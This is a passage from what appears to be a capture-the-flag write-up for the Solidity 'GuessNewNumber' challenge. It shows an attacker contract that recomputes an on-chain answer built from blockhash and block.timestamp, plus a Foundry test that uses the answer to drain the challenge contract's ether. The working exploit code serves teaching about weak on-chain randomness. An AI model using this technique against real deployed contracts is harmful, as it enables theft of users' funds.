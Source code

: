 ```solidity
}
```

### Exploit

Since both `blockhash(block.number - 1)` and `block.timestamp` can also be accessed by an attacker contract, we can reproduce `answer` inside an attacker contract using the exact same code:

_GetNewNumber.sol_
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessNewNumber {
    ...
}

contract ExploitContract {
    GuessNewNumber public guessNewNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        return answer;
    }
}
```

_GetNewNumber.t.sol_
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/GuessNewNumber.sol";

contract GuessNewNumberTest is Test {
    GuessNewNumber public guessNewNumber;
    ExploitContract public exploitContract;

    function setUp() public {
        // Deploy contracts
        guessNewNumber = (new GuessNewNumber){value: 1 ether}();
        exploitContract = new ExploitContract();
    }

    function testNumber(uint256 blockNumber, uint256 blockTimestamp) public {
        // Prevent zero inputs
        vm.assume(blockNumber != 0);
        vm.assume(blockTimestamp != 0);
        // Set block number and timestamp
        vm.roll(blockNumber);
        vm.warp(blockTimestamp);

        // Place your solution here
        uint8 answer = exploitContract.Exploit();
        _checkSolved(answer);
    }

    function _checkSolved(uint8 _newNumber) internal {
        assertTrue(guessNewNumber.guess{value: 1 ether}(_newNumber), "Wrong Number");
        assertTrue(guessNewNumber.isComplete(), "Balance is supposed to be zero");
    }
```